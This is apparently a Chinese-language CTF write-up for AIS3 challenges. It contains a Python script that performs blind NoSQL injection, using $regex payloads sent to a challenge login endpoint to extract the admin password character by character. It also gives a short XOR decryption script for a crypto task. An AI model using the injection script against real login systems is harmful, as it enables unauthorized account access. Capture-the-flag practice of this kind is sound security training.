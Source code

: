 這題是經典的 blind no-sql injection

要注意一下 regex 的特殊字元要跳脫

使用以下腳本

```python=
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://chals1.ais3.org:54088/login"
#u="http://b799-140-116-117-137.ngrok.io/login"
headers={'content-type': 'application/x-www-form-urlencoded'}

words = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%\'()*+,-./:;<=>?@[\\]^_`{|}~ "



while True:
    for cc in words:
        if cc in '()[]*+.?\\|':
            c='\\'+cc
        else:
            c=cc
        payload='username=%s&password[$regex]=^%s' % (urllib.parse.quote(username), urllib.parse.quote(password + c))
        print(payload)
        r = requests.post(u, data = payload, headers = headers)
        print(r.text)
        if 'Failed qwq' not in r.text or r.status_code == 302:
            print("Found one more char : %s" % (password+c))
            password += c
        else:
            print(f"try {c}")
```

## Crypto

### Fast Cipher

模數太小可忽略，求出第一個 key 後，反著做即可拿到 flag。

```python=
import binascii
ct = []
for a in binascii.unhexlify("6c0ec840f88d4cd7fcc6d5c6d1dafcc1cad7d0fcc2d1c6fcd6d0c6c7fccfcccfde"):
    ct.append(a)
M = 2**1024

def f(x):
    return (
        4 * x**4 + 8 * x**8 + 7 * x**7 + 6 * x**6 + 3 * x**3 + 0x48763
    ) % M

num = ct[1]
key = 45
flag = ""
for c in ct:
    flag+=chr(c ^ (key&0xFF))
```